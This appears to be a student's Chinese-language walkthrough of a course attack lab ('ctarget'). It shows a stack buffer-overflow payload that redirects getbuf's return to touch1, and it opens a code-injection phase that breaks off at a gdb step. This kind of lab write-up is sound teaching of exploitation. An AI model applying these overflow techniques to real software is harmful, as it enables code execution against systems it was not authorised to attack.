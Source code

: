 <center><font size = 7>Some Notes</font></center>
<p align = 'right'><font size = 3>by Nemo</font></p>
<p align = 'right'><font size = 3>2023.8.17</font></p>

### ctarget
阅读官方文档和汇编代码，我们的目的是使validate函数“顺利”执行，不要执行fail函数
#### phase1
第一个要攻击的文件
> objdump -d ctarget > ctarget.s

找到要攻击的对象getbuf，源码如下（官方文档提供）
```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
阅读汇编代码，发现
> 4017a8:	48 83 ec 28          sub    $0x28,%rsp

说明开的数组大小为0x28  
根据官方文档，我们需要填充这个大小并让他返回到touch1所在地址  
找到touch1所在地址0x00000000004017c0  
> 要注意你的机器是大端法还是小端法存储数据的，我的机器是小端法，所以touch1地址在机器存储中，地址由低到高排列（和我们读字符串的顺序一致），是0xc017400000000000  

再观察touch1的代码，发现跳到这里就validate了  
所以攻击字符串应该是：（前面40个任意字节）0xc017400000000000  
e.g.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
创建文件p1.txt，写入攻击字符串，执行
> ./hex2raw < p1.txt | ./ctarget -q

PASS

#### phase2
不仅仅要跳到touch2  
再看touch2的汇编，如果cookie和%edi的值不相等，那么就会调用fail；反之调用validate  
所以我们要做的就是让cookie和%edi相等，这个可以通过注入汇编代码实现  
我们把攻击字符串中加入汇编语句，在程序运行时这些语句会被保存在栈中，我们只需用phase1的方法让程序跳到这个保存的位置，执行完这些语句再跳到想要的地方（touch2）即可  
那么我们怎么知道攻击字符串会保存在哪里呢？  
---> gdb调试  
> gdb ctarget  
> b *0x4017ac(原本Gets执行完返回位置)  
> i r  
> rsp            0x5561dc78
